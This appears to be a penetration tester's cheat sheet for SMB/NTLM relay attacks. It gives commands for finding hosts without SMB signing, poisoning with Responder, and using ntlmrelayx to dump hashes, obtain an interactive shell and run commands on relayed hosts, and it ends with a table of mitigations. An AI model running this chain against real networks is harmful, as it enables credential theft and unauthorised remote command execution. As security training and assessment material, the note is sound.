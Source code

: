 ```yaml
---
tags:
    - SMB
---
```

Identify Hosts without SMB Signing
```
nmap --script=smb2-security-mode.nse -p445 <IP/CIDR> -Pn
```
Edit responder config file
```
sudo mousepad /etc/responder/Responder.conf
```
Run responder
```
sudo responder -I <NIC> -dvP
```
Setup relay to get hash dump 
```
sudo ntlmrelayx.py -tf <TARGETS FILE> -smb2support
```
Setup a listener and get a shell
```
sudo ntlmrelayx.py -tf <TARGETS FILE> -smb2support -i
nc 127.0.0.1 11000
```
Running commands with relay
```
sudo ntlmrelayx.py -tf <TARGETS FILE> -smb2support -c "<COMMAND>"
```
## Mitigation
| Method                          | **Description**                                                                                        |
| ------------------------------- | ------------------------------------------------------------------------------------------------------ |
| **Enable SMB Signing**          | Protects SMB communication from man-in-the-middle attacks by encrypting and authenticating traffic.    |
| **Disable NTLM Authentication** | Prevents the use of the outdated and vulnerable NTLM protocol, enforcing more secure Kerberos auth.    |
| **Account Tiering**             | Organizes accounts by access levels to limit lateral movement and minimize compromise impact.          |
| **Local Admin Restriction**     | Reduces the number of local administrators to lower the attack surface and limit privilege escalation. |

